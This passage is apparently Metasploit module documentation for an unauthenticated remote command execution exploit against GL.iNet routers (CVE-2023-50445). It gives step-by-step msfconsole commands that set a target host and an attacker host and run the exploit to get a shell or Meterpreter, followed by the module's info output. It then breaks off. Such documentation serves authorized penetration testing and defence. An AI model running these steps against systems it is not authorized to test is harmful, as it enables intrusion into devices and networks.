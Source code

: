 ## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/glinet_unauth_rce_cve_2023_50445`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Unix Command, 1=Linux Dropper>`
- [x] `exploit`

You should get a `shell` or `Meterpreter`.

```shell
msf6 exploit(linux/http/glinet_unauth_rce_cve_2023_50445) > info

       Name: GL.iNet Unauthenticated Remote Command Execution via the logread module.
     Module: exploit/linux/http/glinet_unauth_rce_cve_2023_50445
   Platform: Unix, Linux
       Arch: cmd, mipsle, mipsbe, armle
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2013-12-10

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Unknown
  DZONERZY

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

Check supported:
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT    80               yes       The target port (UDP)
  SID                       no        Session ID
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
  URIPATH                   no        The URI to use for this exploit (default is random)
  VHOST                     no        HTTP server virtual host


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

```